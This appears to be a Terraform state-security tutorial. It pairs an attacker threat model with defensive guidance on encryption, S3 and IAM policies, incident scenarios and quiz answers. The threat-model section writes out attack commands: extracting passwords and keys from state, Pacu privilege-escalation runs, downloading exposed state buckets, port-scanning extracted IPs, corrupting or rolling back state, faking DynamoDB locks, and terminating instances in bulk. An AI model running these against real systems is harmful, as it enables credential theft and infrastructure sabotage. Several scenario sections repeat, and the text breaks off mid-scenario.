



The Terraform state file is arguably the most sensitive file in your entire infrastructure codebase. It acts as the source of truth for your resources but effectively stores a "plaintext" representation of your environment, often including secrets, keys, and metadata that attackers crave.
## 🛡️ The Threat Model: Why State is a Target
Before securing the state, we must understand the threats and the **specific tools attackers use** to exploit them:

### 1. Secret Exfiltration
**Threat**: Database passwords, private keys, and API tokens are often stored in the state, even if they aren't in the code.

### Attack Tools & Techniques: 

#### a) **TruffleHog** / **GitLeaks** / **git-secrets**
- **Purpose**: Automated secret scanning tools that search through Git history for sensitive data
- **How it works**: Scans commits, branches, and files for patterns matching API keys, passwords, private keys
- **Target**: Accidentally committed `terraform.tfstate` files in Git repositories
- **Example Command**:
  ```bash
  # TruffleHog scanning a repository
  trufflehog git https://github.com/victim/infrastructure --json
  
  # GitLeaks scanning for secrets
  gitleaks detect --source=/path/to/repo --verbose
  ```
#### b) **grep / jq / Python Scripts**
- **Purpose**: Manual extraction of secrets from state files
- **How it works**: Parse the JSON state file to extract sensitive values
- **Example Command**:
  ```bash
  # Extract all password fields from state
  cat terraform.tfstate | jq '.resources[].instances[].attributes | select(.password != null) | .password'
  
  # Find AWS access keys
  grep -r "AKIA[0-9A-Z]{16}" terraform.tfstate
  
  # Extract database connection strings
  cat terraform.tfstate | jq '.resources[] | select(.type=="aws_db_instance") | .instances[].attributes.password'
  ```
#### c) **Pacu** (AWS Exploitation Framework)
- **Purpose**: Post-exploitation framework for AWS environments
- **How it works**: If an attacker gains access to AWS credentials from state, they use Pacu to escalate privileges
- **Example**:
  ```bash
  # After extracting AWS keys from state
  pacu
  set_keys AKIA... SECRET...
  run iam__enum_permissions
  run iam__privesc_scan
  ```
#### d) **S3 Bucket Enumeration Tools**
- **Tools**: `s3scanner`, `bucket_finder`, `AWSBucketDump`
- **How it works**: If state buckets are misconfigured (public read), attackers enumerate and download state files
- **Example**:
  ```bash
  # Find publicly accessible S3 buckets
  python3 s3scanner.py --bucket-file bucket_list.txt
  
  # Download all state files from a bucket
  aws s3 sync s3://victim-terraform-state/ ./stolen-state/ --no-sign-request
  ```
**Real Attack Scenario**:
> An attacker finds a public GitHub repo with `terraform.tfstate` committed. Using TruffleHog, they extract an RDS master password and AWS access keys. They use these credentials with Pacu to enumerate the AWS environment, discover additional resources, and exfiltrate sensitive data from the database.

---

### 2. Reconnaissance
**Threat**: The state contains detailed mapping of your network (IPs, Subnets, VPC IDs) and resource IDs, aiding lateral movement.

**Attack Tools & Techniques**:
#### a) **Nmap / Masscan**
- **Purpose**: Network scanning and port discovery
- **How it works**: After extracting IP addresses and CIDR blocks from state, attackers scan for open ports and services
- **Example**:
  ```bash
  # Extract all IP addresses from state
  cat terraform.tfstate | jq -r '.resources[].instances[].attributes.private_ip' > targets.txt
  
  # Scan extracted IPs
  nmap -iL targets.txt -p- -sV -sC -oA scan_results
  
  # Fast scan with Masscan
  masscan -iL targets.txt -p1-65535 --rate=10000
  ```
#### b) **CloudMapper** / **Cartography**
- **Purpose**: AWS infrastructure visualization and attack path discovery
- **How it works**: Combines state file data with AWS API calls to map the entire environment
- **Example**:
  ```bash
  # After extracting AWS account info from state
  python cloudmapper.py collect --account victim-account
  python cloudmapper.py prepare --account victim-account
  python cloudmapper.py webserver
  ```
#### c) **ScoutSuite** / **Prowler**
- **Purpose**: Multi-cloud security auditing
- **How it works**: Uses credentials from state to perform comprehensive security assessment
- **Example**:
  ```bash
  # Using extracted AWS credentials
  python scout.py aws --access-key-id AKIA... --secret-access-key SECRET...
  
  # Prowler security audit
  prowler aws --access-key-id AKIA... --secret-access-key SECRET...
  ```
#### d) **Custom Python/Bash Scripts**
- **Purpose**: Parse state file to build network topology
- **Example Script**:
  ```python
  import json
  
  with open('terraform.tfstate', 'r') as f:
      state = json.load(f)
  
  # Extract network topology
  for resource in state['resources']:
      if resource['type'] == 'aws_subnet':
          print(f"Subnet: {resource['instances'][0]['attributes']['cidr_block']}")
          print(f"VPC: {resource['instances'][0]['attributes']['vpc_id']}")
      elif resource['type'] == 'aws_security_group':
          print(f"Security Group: {resource['instances'][0]['attributes']['id']}")
          for rule in resource['instances'][0]['attributes'].get('ingress', []):
              print(f"  Ingress: {rule['from_port']}-{rule['to_port']} from {rule['cidr_blocks']}")
  ```
**Real Attack Scenario**:
> An insider threat downloads the state file before leaving the company. They extract all VPC configurations, subnet CIDR blocks, and security group rules. Using this information, they map the entire network topology, identify internal services, and plan targeted attacks against specific IP ranges that were previously unknown.

---
### 3. Corruption/Sabotage
**Threat**: Malicious modification of the state file can destroy infrastructure or drift it into a broken state.

### Attack Tools & Techniques:

#### a) **Direct State Manipulation**
- **Purpose**: Modify state to cause infrastructure destruction or misconfiguration
- **How it works**: Edit the JSON state file to change resource IDs, forcing Terraform to recreate resources
- **Example**:
  ```bash
  # Download state from S3
  aws s3 cp s3://victim-state-bucket/terraform.tfstate ./
  
  # Modify resource IDs to force recreation
  sed -i 's/"id": "i-0123456789abcdef0"/"id": "i-FAKEFAKEFAKEFAKE"/g' terraform.tfstate
  
  # Upload corrupted state
  aws s3 cp terraform.tfstate s3://victim-state-bucket/terraform.tfstate
  ```
#### b) **State Lock Denial of Service**
- **Purpose**: Prevent legitimate Terraform operations by holding the state lock indefinitely
- **How it works**: Acquire the DynamoDB lock and never release it
- **Example**:
  ```bash
  # Create a fake lock in DynamoDB
  aws dynamodb put-item \
    --table-name terraform-locks \
    --item '{
      "LockID": {"S": "victim-state-bucket/prod/terraform.tfstate-md5"},
      "Info": {"S": "Locked by attacker"},
      "Created": {"S": "2025-12-30T14:00:00Z"}
    }'
  ```
#### c) **Terraform State Poisoning**
- **Purpose**: Inject malicious resources into state that don't actually exist
- **How it works**: Add fake resources to state, causing Terraform to attempt operations on non-existent infrastructure
- **Example**:
  ```python
  import json
  
  with open('terraform.tfstate', 'r') as f:
      state = json.load(f)
  
  # Add fake resource that will cause errors
  fake_resource = {
      "mode": "managed",
      "type": "aws_instance",
      "name": "fake_server",
      "instances": [{
          "attributes": {
              "id": "i-DOESNOTEXIST",
              "ami": "ami-fake",
              "instance_type": "t2.micro"
          }
      }]
  }
  
  state['resources'].append(fake_resource)
  
  with open('terraform.tfstate', 'w') as f:
      json.dump(state, f, indent=2)
  ```
#### d) **AWS CLI / Boto3 Scripts**
- **Purpose**: Bypass Terraform and directly delete resources while state remains intact
- **How it works**: Use AWS credentials to delete infrastructure, causing state drift
- **Example**:
  ```bash
  # Extract all EC2 instance IDs from state
  INSTANCES=$(cat terraform.tfstate | jq -r '.resources[] | select(.type=="aws_instance") | .instances[].attributes.id')
  
  # Terminate all instances directly (bypassing Terraform)
  for instance in $INSTANCES; do
    aws ec2 terminate-instances --instance-ids $instance
  done
  
  # State still thinks instances exist, causing chaos on next apply
  ```

**Real Attack Scenario**:
> A disgruntled employee with S3 write access downloads the production state file, modifies all RDS instance IDs to invalid values, and re-uploads it. The next morning, when the DevOps team runs `terraform apply`, Terraform attempts to destroy and recreate all databases because it thinks the current ones don't match the state, resulting in catastrophic data loss.

---
### 4. Stale State Exploitation
**Threat**: Accessing outdated state files can lead to improper resource updates or deletions.
#### **Attack Tools & Techniques**:
#### a) **S3 Version Enumeration**
- **Purpose**: Access historical versions of state files to find deleted secrets or old configurations
- **How it works**: List all versions of state files in S3 and download older versions
- **Example**:
  ```bash
  # List all versions of state file
  aws s3api list-object-versions \
    --bucket victim-state-bucket \
    --prefix terraform.tfstate
  
  # Download an old version that might contain deleted secrets
  aws s3api get-object \
    --bucket victim-state-bucket \
    --key terraform.tfstate \
    --version-id "OLD_VERSION_ID" \
    old_state.json
  
  # Extract secrets from old state
  cat old_state.json | jq '.resources[].instances[].attributes | select(.password != null)'
  ```
#### b) **State Rollback Attack**
- **Purpose**: Replace current state with an old version to cause infrastructure drift
- **How it works**: Upload an outdated state file, causing Terraform to "undo" recent changes
- **Example**:
  ```bash
  # Download old state version
  aws s3api get-object \
    --bucket victim-state-bucket \
    --key terraform.tfstate \
    --version-id "VERSION_FROM_LAST_MONTH" \
    old_state.json
  
  # Upload as current state
  aws s3 cp old_state.json s3://victim-state-bucket/terraform.tfstate
  
  # Next terraform apply will try to recreate deleted resources
  ```
#### c) **Git History Mining**
- **Purpose**: Find old state files in Git history that were later removed
- **How it works**: Search through all commits for state files
- **Example**:
  ```bash
  # Search entire Git history for state files
  git log --all --full-history -- "*.tfstate"
  
  # Checkout old commit with state file
  git checkout <old-commit-hash> -- terraform.tfstate
  
  # Extract secrets from historical state
  cat terraform.tfstate | grep -i "password\|secret\|key"
  ```
#### d) **Backup/Snapshot Exploitation**
- **Purpose**: Access state files from backups or snapshots
- **How it works**: If attackers gain access to backup systems, they can extract old state files
- **Example**:
  ```bash
  # List EBS snapshots that might contain state files
  aws ec2 describe-snapshots --owner-ids self
  
  # Create volume from snapshot
  aws ec2 create-volume --snapshot-id snap-xxx --availability-zone us-east-1a
  
  # Mount and search for state files
  mount /dev/xvdf /mnt
  find /mnt -name "*.tfstate" -exec cat {} \;
  ```
**Real Attack Scenario**:
> An attacker gains read access to an S3 bucket with versioning enabled. They enumerate all historical versions of the state file and discover that 6 months ago, the team was using a different RDS password that was later rotated. However, they also find that an old EC2 instance (now terminated) still exists in a backup with that old password configured. They restore that instance from a snapshot and gain access using the historical credentials.

---
### 🎯 Attack Chain Example: Full Compromise



---
### 🛡️ Defense Summary

| Threat                  | Primary Tools Used                  | Key Defense                                           |
| ----------------------- | ----------------------------------- | ----------------------------------------------------- |
| **Secret Exfiltration** | TruffleHog, GitLeaks, grep, jq      | KMS encryption, Secrets Manager, `.gitignore`         |
| **Reconnaissance**      | Nmap, CloudMapper, ScoutSuite       | Least privilege IAM, Private S3, Network segmentation |
| **Corruption/Sabotage** | Direct JSON editing, AWS CLI        | S3 Versioning, MFA Delete, Bucket policies            |
| **Stale State**         | S3 version enumeration, Git history | Regular rotation, Lifecycle policies, Audit logs      |

---
## 🔐 1. Encryption Strategies

### Encryption at Rest
Your backend *must* encrypt the state file where it is stored.
*   **Standard (SSE-S3)**: AWS handles the key. Good baseline protection.
*   **Advanced (SSE-KMS)**: You manage the Customer Master Key (CMK).
    *   *Pro*: You can audit who used the key to decrypt the state via CloudTrail.
    *   *Pro*: You can revoke access to the key instantly, rendering the state useless even if the file is stolen.
### Encryption in Transit
State data travels between your local machine/CI runner and the backend.
*   **Enforce TLS**: Ensure your S3 bucket policy denies any `s3:*` actions if `aws:SecureTransport` is `false`.
*   **TFC/TFE**: By default, Terraform Cloud communicates over TLS 1.2+.

---
## 🤫 2. Secret Management vs. State
The most common misconception: *"If I mark a variable as `sensitive = true`, it is encrypted in the state file."*
**FALSE.**
*   `sensitive = true` **only** suppresses the value in the CLI `plan` and `apply` output.
*   The value is stored in **PLAIN TEXT** in the `terraform.tfstate` JSON file.
### Recommended Pattern: "Reference, Don't Store"
Do not pass secrets into Terraform if you can avoid it. Instead:
1.  Create the secret infrastructure (e.g., RDS) using a placeholder or auto-generated password.
2.  Have the resource (e.g., AWS Secrets Manager) generate the password.
3.  Your app reads the password from Secrets Manager at runtime.
4.  Terraform only manages the *pointer* (ARN) to the secret, not the value itself.



---

## 🏰 3. Backend Hardening: Defense in Depth
Secure the "Vault" (your S3 bucket) with multiple layers.
### The S3 Defense Checklist
1.  **Private by Default**: Block all public access.
2.  **Versioning**: Enable S3 Versioning. If state is corrupted or deleted (accidentally or maliciously), you can roll back.
3.  **MFA Delete**: Require Multi-Factor Authentication to permanently delete object versions.
4.  **Bucket Policy**: Restrict access to specific IAM Roles (CI/CD Runner, Admin). Deny everyone else.
5.  **Logging**: Enable Server Access Logging to an audit bucket.
#### S3 Bucket Policy Example (Enforce TLS)
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "DenyInsecureTransport",
      "Effect": "Deny",
      "Principal": "*",
      "Action": "s3:*",
      "Resource": [
        "arn:aws:s3:::my-tf-state-bucket",
        "arn:aws:s3:::my-tf-state-bucket/*"
      ],
      "Condition": {
        "Bool": {
          "aws:SecureTransport": "false"
        }
      }
    }
  ]
}
```
#### IAM Policy for CI/CD (Least Privilege)
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "s3:GetObject",
        "s3:PutObject"
      ],
      "Resource": "arn:aws:s3:::my-tf-state-bucket/prod/*"
    },
    {
      "Effect": "Allow",
      "Action": [
        "dynamodb:PutItem",
        "dynamodb:GetItem",
        "dynamodb:DeleteItem"
      ],
      "Resource": "arn:aws:dynamodb:us-east-1:123456789012:table/terraform-locks"
    },
    {
      "Effect": "Allow",
      "Action": [
        "kms:Decrypt",
        "kms:Encrypt",
        "kms:GenerateDataKey"
      ],
      "Resource": "arn:aws:kms:us-east-1:123456789012:key/12345678-1234-1234-1234-123456789012"
    }
  ]
}
```
#### Backend Configuration with KMS
```hcl
terraform {
  backend "s3" {
    bucket         = "my-tf-state-bucket"
    key            = "prod/terraform.tfstate"
    region         = "us-east-1"
    dynamodb_table = "terraform-locks"
    encrypt        = true
    kms_key_id     = "arn:aws:kms:us-east-1:123456789012:key/12345678-1234-1234-1234-123456789012"
  }
}
```



---

## 📜 4. Policy as Code (Introduction)
Tools like **Sentinel** (HashiCorp) or **OPA** (Open Policy Agent) can enforce security *before* the state is even touched.

*   **Rule Example**: "Prevent `terraform apply` if the S3 backend bucket does not have encryption enabled."
*   **Rule Example**: "Ensure no resource of type `aws_iam_access_key` is created."

---
## 🏗️ Real-Life Scenarios

### Scenario 1: The "Git-Committed" State
*   **Problem**: A junior engineer runs Terraform locally and accidentally commits the `terraform.tfstate` file to a public GitHub repo.
*   **Impact**: Specifying `.gitignore` is crucial. The database root password was in the state.
*   **Fix**: Rotate all credentials immediately. Use remote state backends which prevent local file creation by default.
### Scenario 2: The "Disgruntled" Delete
*   **Problem**: An ex-employee still had write access to the S3 bucket and deleted the state file.
*   **Impact**: Terraform lost track of all resources. Re-importing 1000+ resources is a nightmare.
**Problem**: A junior engineer runs Terraform locally and accidentally commits the `terraform.tfstate` file to a public GitHub repo.

**Impact**: The state file contained:
- RDS master password
- AWS access keys
- Private IP addresses
- Security group configurations

**Discovery**: GitHub's secret scanning detected the AWS keys and sent an alert.

**Response**:
```bash
# 1. Immediately rotate all credentials
aws iam delete-access-key --access-key-id AKIA...
aws rds modify-db-instance --db-instance-identifier prod-db \
  --master-user-password "NEW_SECURE_PASSWORD"

# 2. Remove from Git history
git filter-branch --force --index-filter \
  'git rm --cached --ignore-unmatch terraform.tfstate' \
  --prune-empty --tag-name-filter cat -- --all

# 3. Force push (coordinate with team)
git push origin --force --all

# 4. Implement remote backend
terraform {
  backend "s3" {
    bucket = "company-terraform-state"
    key     = "prod/terraform.tfstate"
    region = "us-east-1"
    encrypt = true
  }
}
```

**Prevention**:
- Add `*.tfstate` to `.gitignore`
- Use pre-commit hooks to block state files
- Implement remote backends from day one
- Enable GitHub secret scanning

---

### Scenario 2: The "Disgruntled" Delete
**Problem**: An ex-employee still had write access to the S3 bucket and deleted the state file.

**Impact**: Terraform lost track of all 1,200+ resources across production. Running `terraform plan` showed it wanted to create everything from scratch.

**Discovery**: Monitoring alert triggered when state file was deleted from S3.

**Response**:
```bash
# 1. List all versions of the state file
aws s3api list-object-versions \
  --bucket prod-terraform-state \
  --prefix terraform.tfstate

# 2. Restore the latest version before deletion
aws s3api get-object \
  --bucket prod-terraform-state \
  --key terraform.tfstate \
  --version-id "VERSION_ID_BEFORE_DELETE" \
  restored-state.json

# 3. Upload as current state
aws s3 cp restored-state.json s3://prod-terraform-state/terraform.tfstate

# 4. Verify restoration
terraform plan  # Should show no changes
```

**Prevention**:
- Enable S3 Versioning on state buckets
- Enable MFA Delete
- Implement automated IAM access reviews
- Revoke access immediately upon employee departure
- Use AWS Organizations SCPs to prevent bucket deletion

---

### Scenario 3: The "KMS Key Deletion" Disaster
**Problem**: A security team member accidentally scheduled deletion of the KMS key used to encrypt the state file.

**Impact**: After 7 days, the key would be deleted, making all state files permanently unreadable.

**Discovery**: Automated compliance scan detected the scheduled deletion.

**Response**:
```bash
# 1. Cancel the key deletion immediately
aws kms cancel-key-deletion --key-id arn:aws:kms:us-east-1:123456789012:key/...

# 2. Verify key is active
aws kms describe-key --key-id arn:aws:kms:us-east-1:123456789012:key/...

# 3. Test state access
terraform state list

# 4. Implement key deletion protection
# Add key policy to prevent deletion
{
  "Sid": "Prevent Key Deletion",
  "Effect": "Deny",
  "Principal": "*",
  "Action": [
    "kms:ScheduleKeyDeletion",
    "kms:DeleteAlias"
  ],
  "Resource": "*"
}
```

**Prevention**:
- Implement KMS key policies that restrict deletion
- Set up CloudWatch alarms for `ScheduleKeyDeletion` API calls
- Use AWS Config rules to detect key deletion schedules
- Require approval workflow for key management operations

---

### Scenario 4: The "Insider Reconnaissance"
**Problem**: An insider downloaded the state file before leaving and used it to map the company's infrastructure.

**Impact**: The attacker:
- Extracted all private IP addresses
- Mapped VPC topology and security groups
- Identified vulnerable services
- Planned targeted attacks

**Discovery**: CloudTrail logs showed unusual state file downloads at 2 AM.

**Response**:
```bash
# 1. Review CloudTrail for suspicious activity
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=ResourceName,AttributeValue=terraform.tfstate \
  --start-time 2025-12-01 \
  --max-results 100

# 2. Identify compromised credentials
# Review KMS decrypt operations
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=EventName,AttributeValue=Decrypt

# 3. Rotate all infrastructure
# Change security group rules
# Rotate database passwords
# Update network configurations

# 4. Implement stricter access controls
# Update IAM policies to require MFA
{
  "Condition": {
    "BoolIfExists": {
      "aws:MultiFactorAuthPresent": "true"
    }
  }
}
```

**Prevention**:
- Require MFA for state bucket access
- Implement time-based access restrictions
- Set up anomaly detection for unusual access patterns
- Use AWS GuardDuty for threat detection
- Implement just-in-time (JIT) access

---

### Scenario 5: The "Terraform Cloud Migration"
**Problem**: Company needed to migrate from S3 backend to Terraform Cloud for better security and collaboration.

**Challenge**: 50+ workspaces with different state files, all containing sensitive data.

**Solution**:
```bash
# 1. Create Terraform Cloud organization and workspaces
# (Done via UI or API)

# 2. For each workspace, update backend configuration
# old-backend.tf
terraform {
  backend "s3" {
    bucket = "old-state-bucket"
    key     = "prod/terraform.tfstate"
    region = "us-east-1"
  }
}

# new-backend.tf
terraform {
  cloud {
    organization = "company-name"
    workspaces {
      name = "prod-infrastructure"
    }
  }
}

# 3. Migrate state
terraform init -migrate-state

# 4. Verify migration
terraform state list

# 5. Clean up old S3 state (after verification period)
# Archive old state files for compliance
aws s3 sync s3://old-state-bucket/ s3://archive-bucket/terraform-state-archive/
```

**Benefits Achieved**:
- Built-in encryption and access control
- Audit logs for all operations
- Remote execution with policy enforcement
- Better collaboration with workspace management
- Reduced attack surface (no S3 bucket to secure)

---
## ❓ Interview Questions

1. **If I use `sensitive = true`, is my variable encrypted in the state file?**
   - **Answer**: No. `sensitive = true` only redacts the value from CLI output (plan/apply). The value is still stored in **plain text** in the `terraform.tfstate` JSON file. To protect secrets, use a remote backend with encryption at rest (S3+KMS) and consider using secrets managers instead of passing secrets as variables.

2. **How do you handle secrets (like DB passwords) in Terraform?**
   - **Answer**: Best practice is to avoid passing secrets as Terraform variables. Instead:
     - Use AWS Secrets Manager or HashiCorp Vault to generate and store secrets
     - Have Terraform create the secret resource with auto-generated values
     - Reference the secret ARN/path in your resources
     - Applications fetch secrets at runtime
     - If you must pass secrets, ensure the backend uses KMS encryption and strict IAM policies

3. **Why is S3 Versioning critical for state backends?**
   - **Answer**: S3 Versioning acts as a backup mechanism. If the state file is corrupted during a failed apply, accidentally deleted, or maliciously modified, versioning allows you to rollback to the last known good state version. This is essential for disaster recovery and can save hours of manual state reconstruction.

4. **Explain "Encryption in Transit" for Terraform.**
   - **Answer**: Encryption in transit ensures that data moving between the Terraform client and the backend is encrypted using TLS/HTTPS. This prevents Man-in-the-Middle (MITM) attacks where an attacker could intercept state data being transmitted. Enforce this with S3 bucket policies that deny requests where `aws:SecureTransport` is `false`.

5. **How can KMS help audit state access?**
   - **Answer**: When using a Customer Managed Key (CMK) with KMS, every encryption and decryption request is logged in AWS CloudTrail. This creates an audit trail showing exactly which IAM user or role accessed the state file, when they accessed it, and from which IP address. This is crucial for compliance and security investigations.

6. **What is the difference between SSE-S3 and SSE-KMS encryption for state files?**
   - **Answer**:
     - **SSE-S3**: AWS manages the encryption keys automatically. Simple to set up but no audit trail or key rotation control.
     - **SSE-KMS**: You manage the Customer Master Key (CMK). Provides CloudTrail audit logs, key rotation policies, and the ability to revoke access instantly. Recommended for production environments.

7. **How would you detect if a state file has been compromised?**
   - **Answer**:
     - Monitor CloudTrail logs for unusual KMS decrypt operations
     - Check S3 access logs for unexpected downloads
     - Review IAM CloudTrail events for unauthorized assume-role attempts
     - Set up CloudWatch alarms for state file access outside business hours
     - Use AWS GuardDuty to detect anomalous API calls
     - Implement state file integrity checks (hash comparisons)

8. **What should be in your `.gitignore` for Terraform projects?**
   - **Answer**:
     ```
     # State files
     *.tfstate
     *.tfstate.*
     
     # Crash log files
     crash.log
     
     # Sensitive variable files
     *.tfvars
     terraform.tfvars
     
     # Local Terraform directory
     .terraform/
     .terraform.lock.hcl
     
     # Plan files (may contain sensitive data)
     *.tfplan
     ```

9. **Explain the "Reference, Don't Store" pattern for secrets.**
   - **Answer**: Instead of passing secrets as Terraform variables (which end up in state), create the secret infrastructure and let the service generate the secret. For example:
     - Terraform creates an AWS Secrets Manager secret resource
     - The secret auto-generates a random password
     - Terraform references the secret ARN in RDS configuration
     - RDS fetches the password from Secrets Manager
     - Application fetches the password at runtime
     - Terraform state only contains the ARN, not the actual password

10. **What is MFA Delete and why is it important for state buckets?**
    - **Answer**: MFA Delete requires multi-factor authentication to permanently delete object versions or disable versioning on an S3 bucket. This prevents:
      - Accidental deletion of state files
      - Malicious deletion by compromised credentials
      - Insider threats from disgruntled employees
      - It adds a critical human verification step before destructive actions

---

## 🧠 Quiz Questions (25 Total)

### Encryption & Security Basics (1-8)

1. **What does `sensitive = true` do in Terraform?**
   - Answer: Redacts the value from CLI output only; does NOT encrypt it in state

2. **Which encryption method provides audit logs via CloudTrail?**
   - Answer: SSE-KMS (Customer Managed Keys)

3. **True/False: State files should be committed to Git for version control.**
   - Answer: False (state files contain secrets and should NEVER be in Git)

4. **What S3 bucket policy condition enforces HTTPS-only access?**
   - Answer: `"aws:SecureTransport": "false"` with Deny effect

5. **Which AWS service should store database passwords instead of Terraform variables?**
   - Answer: AWS Secrets Manager (or HashiCorp Vault)

6. **True/False: Encryption at rest protects against Man-in-the-Middle attacks.**
   - Answer: False (that's encryption in transit/TLS)

7. **What is the recommended encryption method for production state files?**
   - Answer: SSE-KMS with Customer Managed Keys

8. **Which file should ALWAYS be in `.gitignore`?**
   - Answer: `*.tfstate` and `*.tfstate.*`

### Attack Vectors & Threats (9-16)

9. **Which tool can scan Git history for accidentally committed secrets?**
   - Answer: TruffleHog or GitLeaks

10. **What command extracts passwords from a state file?**
    - Answer: `jq '.resources[].instances[].attributes | select(.password != null)'`

11. **Which AWS exploitation framework is used post-compromise?**
    - Answer: Pacu

12. **True/False: `terraform state rm` can be used to sabotage infrastructure.**
    - Answer: True (removes resources from management, causing drift)

13. **What attack involves replacing current state with an old version?**
    - Answer: State Rollback Attack

14. **Which tool maps AWS infrastructure for attack path discovery?**
    - Answer: CloudMapper or Cartography

15. **What is the purpose of state lock DoS attacks?**
    - Answer: Prevent legitimate Terraform operations by holding the lock indefinitely

16. **True/False: Old state versions can contain rotated secrets.**
    - Answer: True (historical versions may have old passwords)

### Defense Mechanisms (17-25)

17. **What S3 feature allows recovery from accidental deletion?**
    - Answer: S3 Versioning

18. **What requires MFA to permanently delete state file versions?**
    - Answer: MFA Delete

19. **Which IAM principle should be applied to state bucket access?**
    - Answer: Least Privilege

20. **True/False: All S3 state buckets should be public for team access.**
    - Answer: False (should be private with strict IAM policies)

21. **What tool enforces policy-as-code for Terraform Enterprise?**
    - Answer: Sentinel (or OPA - Open Policy Agent)

22. **Which AWS service logs all KMS key usage?**
    - Answer: AWS CloudTrail

23. **What should you enable on S3 to track who accessed state files?**
    - Answer: S3 Server Access Logging

24. **True/False: Remote backends are more secure than local state files.**
    - Answer: True (encryption, access control, audit logs, versioning)

25. **What is the first step after discovering a committed state file in Git?**
    - Answer: Rotate all credentials immediately and remove from Git history

---

## 🏗️ Real-Life Scenarios

### Scenario 1: The "Git-Committed" State
**Problem**: A junior engineer runs Terraform locally and accidentally commits the `terraform.tfstate` file to a public GitHub repo.

**Impact**: The state file contained:
- RDS master password
- AWS access keys
- Private IP addresses
- Security group configurations

**Discovery**: GitHub's secret scanning detected the AWS keys and sent an alert.

**Response**:
```bash
# 1. Immediately rotate all credentials
aws iam delete-access-key --access-key-id AKIA...
aws rds modify-db-instance --db-instance-identifier prod-db \
  --master-user-password "NEW_SECURE_PASSWORD"

# 2. Remove from Git history
git filter-branch --force --index-filter \
  'git rm --cached --ignore-unmatch terraform.tfstate' \
  --prune-empty --tag-name-filter cat -- --all

# 3. Force push (coordinate with team)
git push origin --force --all

# 4. Implement remote backend
terraform {
  backend "s3" {
    bucket = "company-terraform-state"
    key     = "prod/terraform.tfstate"
    region = "us-east-1"
    encrypt = true
  }
}
```

**Prevention**:
- Add `*.tfstate` to `.gitignore`
- Use pre-commit hooks to block state files
- Implement remote backends from day one
- Enable GitHub secret scanning

---

### Scenario 2: The "Disgruntled" Delete
**Problem**: An ex-employee still had write access to the S3 bucket and deleted the state file.

**Impact**: Terraform lost track of all 1,200+ resources across production. Running `terraform plan` showed it wanted to create everything from scratch.

**Discovery**: Monitoring alert triggered when state file was deleted from S3.

**Response**:
```bash
# 1. List all versions of the state file
aws s3api list-object-versions \
  --bucket prod-terraform-state \
  --prefix terraform.tfstate

# 2. Restore the latest version before deletion
aws s3api get-object \
  --bucket prod-terraform-state \
  --key terraform.tfstate \
  --version-id "VERSION_ID_BEFORE_DELETE" \
  restored-state.json

# 3. Upload as current state
aws s3 cp restored-state.json s3://prod-terraform-state/terraform.tfstate

# 4. Verify restoration
terraform plan  # Should show no changes
```

**Prevention**:
- Enable S3 Versioning on state buckets
- Enable MFA Delete
- Implement automated IAM access reviews
- Revoke access immediately upon employee departure
- Use AWS Organizations SCPs to prevent bucket deletion

---

### Scenario 3: The "KMS Key Deletion" Disaster
**Problem**: A security team member accidentally scheduled deletion of the KMS key used to encrypt the state file.

**Impact**: After 7 days, the key would be deleted, making all state files permanently unreadable.

**Discovery**: Automated compliance scan detected the scheduled deletion.

**Response**:
```bash
# 1. Cancel the key deletion immediately
aws kms cancel-key-deletion --key-id arn:aws:kms:us-east-1:123456789012:key/...

# 2. Verify key is active
